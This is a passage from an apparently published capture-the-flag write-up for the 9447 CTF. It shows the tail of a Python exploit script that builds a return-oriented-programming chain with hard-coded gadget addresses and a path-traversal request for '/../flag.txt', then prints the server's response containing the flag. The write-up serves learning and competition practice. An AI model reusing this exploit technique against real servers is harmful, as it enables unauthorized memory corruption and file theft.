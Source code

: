 payload += pack(0)
payload += '1'*8
payload += '22222'

'''
pattern 5fc3 found at 0x401323
POP RDI; RET; 
pattern 5e415fc3 found at 0x401321
POP RSI; POP R15; RET; 
'''

RDIRET = 0x401323
RSIR15RET = 0x401321
FILEBUF = 0x612010
READ = 0x400ae0 # buf, size
PRINT = 0x40115e # -

# READ(&filebuf, 0x30) -> PRINT FILE.
#payload += pack(RDIRET)
#payload += pack(FILEBUF)	# rdi
#payload += pack(RSIR15RET)
#payload += pack(0x30)	# rsi
#payload += pack(READ)
#payload += pack(RDIRET)
#payload += pack(FILEBUF)
payload += pack(PRINT)
payload += '/../flag.txt\x00'
payload += ' HTTP/1.1\r\n\r\n'
r.send( payload )

# get flag.
print r.recv(8192)
print r.recv(8192)
print r.recv(8192)
#r.interactive()
{% endhighlight %}

Running it on the real server gave us the flag:

{% highlight text %}
Accept-Ranges: bytes
Connection: close
9447{1_h0pe_you_L1ked_our_w3b_p4ge}
*** stack smashing detected ***: /ho
{% endhighlight %}

# Get help

The flag was in the topic of the official 9447 CTF IRC channel #9447ctf on freenode:
